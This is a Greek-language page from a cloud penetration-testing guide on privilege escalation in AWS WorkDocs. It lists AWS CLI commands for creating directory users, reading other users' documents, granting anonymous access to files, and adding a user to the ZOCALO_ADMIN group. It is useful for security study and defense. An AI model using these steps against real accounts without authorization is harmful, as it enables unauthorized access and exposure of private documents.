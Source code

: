 # AWS - WorkDocs Privesc

## WorkDocs

Για περισσότερες πληροφορίες σχετικά με το WorkDocs, ανατρέξτε στο:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Δημιουργήστε έναν χρήστη μέσα στον κατάλογο που έχει καθοριστεί, έτσι θα έχετε πρόσβαση τόσο στο WorkDocs όσο και στο AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Τα αρχεία μπορεί να περιέχουν ευαίσθητες πληροφορίες, διαβάστε τα:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Αν δεν έχετε πρόσβαση για να διαβάσετε κάτι, μπορείτε απλά να το χορηγήσετε.

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Μπορείτε να καταστήσετε έναν χρήστη διαχειριστής θέτοντάς τον στην ομάδα ZOCALO\_ADMIN.\
Για να το κάνετε αυτό, ακολουθήστε τις οδηγίες από [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Συνδεθείτε με αυτόν τον χρήστη στο workdoc και αποκτήστε πρόσβαση στον διαχειριστικό πίνακα στη διεύθυνση `/workdocs/index.html#/admin`

Δεν βρήκα κάποιον τρόπο να το κάνω αυτό από το cli.
